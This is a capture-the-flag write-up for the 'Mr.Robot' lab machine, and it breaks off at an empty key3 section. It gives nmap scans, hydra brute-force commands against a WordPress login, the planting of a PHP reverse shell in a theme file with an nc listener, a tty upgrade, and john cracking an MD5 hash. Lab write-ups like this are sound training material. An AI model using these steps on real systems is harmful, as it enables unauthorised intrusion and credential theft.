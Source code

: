 Mr.Robot CTF
===

### environment
KALI Linux ip 10.10.228.21

TARGET 10.10.106.11
###   Hack the machine

- [x] key1
First,use nmap to confirm which port is open

```
nmap -sV -sC 10.10.106.11
```

We know that port 80 443 is open, we can check port 80 and 443 .

http://10.10.106.11,we got like hacker command line interface,but that just say why Mr.Robo hacker billionaire.

![image](https://user-images.githubusercontent.com/67756786/193573386-bd27b73e-8e9c-4a41-bf71-262b67a0d4ac.png)

I think that can use nmap to scan http

```
nmap -p80 --script http-enum 10.10.106.11
```
![image](https://user-images.githubusercontent.com/67756786/193574089-ea48f301-ba26-4d90-8287-97e9561c9ad3.png)

We got some page information,first,I visit robots.txt.

I got one dictionary and key1

![image](https://user-images.githubusercontent.com/67756786/193574635-83e789b6-4bca-492a-9951-6fe1d4451809.png)

- [x] key2

I sort dictionary and purge same word.

```
sort fsocity.dic | uniq > fsocity.dic.uni
```

Originally there have 800000 more word, but remain 10000 more word after sort.

![image](https://user-images.githubusercontent.com/67756786/193575699-9e38693f-ea5c-4c2d-893e-6270e4d6541d.png)
![image](https://user-images.githubusercontent.com/67756786/193575822-6868847e-e833-4678-89be-9952ae8af6ff.png)

check wordpress version,press F12 and search ver,we know wordpress version is 4.3.1

![image](https://user-images.githubusercontent.com/67756786/193729112-0f6e00f9-82c0-4d86-b939-bbefd77e3dd6.png)

wordpress has user enumeration exploit,if wrong user will print invaild username.

![image](https://user-images.githubusercontent.com/67756786/193732070-2e9655b1-dc9c-46a2-bb0a-f3f4080f97b3.png)

Now we can use burp suite to intercept WP login request.


![image](https://user-images.githubusercontent.com/67756786/193734649-924974cd-c922-495d-8aef-b8ec9ef0b0ac.png)



We can use hydra to brute force username,and we got username Elliot.

```
hydra -L fsocity.dic.uniq -p password 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:Invalid username'
```

![image](https://user-images.githubusercontent.com/67756786/193734975-7d2cef62-364d-469e-ab78-7aacfae83126.png)

Next try password,use same dictionary to crack password.

```
hydra -l Elliot -P fsocity.dic.uniq 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:The password you entered'
```
IF I hadn't sort the dictionary , that could been wait for a long time.

Now got pw is ER28-0652

I upload php reverse shell to 404.php(appearance->editor->404.php)
php reverse shell source code.
(https://github.com/pentestmonkey/php-reverse-shell)

![image](https://user-images.githubusercontent.com/67756786/193764939-d7e21dc5-24e6-4d0b-b819-6b647658cb33.png)

kali listen to 1234,and url paste 10.10.195.36/404.php.

```
nc -lvnp 1234
```

Now got reverse shell,and use pty 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
press Ctrl + z
stty raw -echo; fg
press twice Enter
```
![image](https://user-images.githubusercontent.com/67756786/193771566-23cc7cab-0073-464e-8b33-e8db6df45c27.png)

cd to /home ,and use ls to confirm user

```
cd /home
ls
```

![image](https://user-images.githubusercontent.com/67756786/193771931-613113da-5cf5-4b1c-afad-3b6e7d12fc8a.png)

into robot ,after we got key2 but Permission denied.

![image](https://user-images.githubusercontent.com/67756786/193772149-c3944d0c-2515-4839-8ee5-feda2d983899.png)

Now confirm password.raw-md5

![image](https://user-images.githubusercontent.com/67756786/193772294-2723582e-4844-4ad6-a5ad-dd8119204a48.png)

We can use john to crack that,dictionary use rockyou.txt

robot's hash password save to hash.txt for john.

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt   hash.txt
```

![image](https://user-images.githubusercontent.com/67756786/193775597-1769c5b9-ca88-4750-9467-cb523654e582.png)

Now, login by robot,and confirm key2

![image](https://user-images.githubusercontent.com/67756786/193776151-851a1845-6b42-4ae0-8c97-66d2f2623de3.png)

. [x] key3


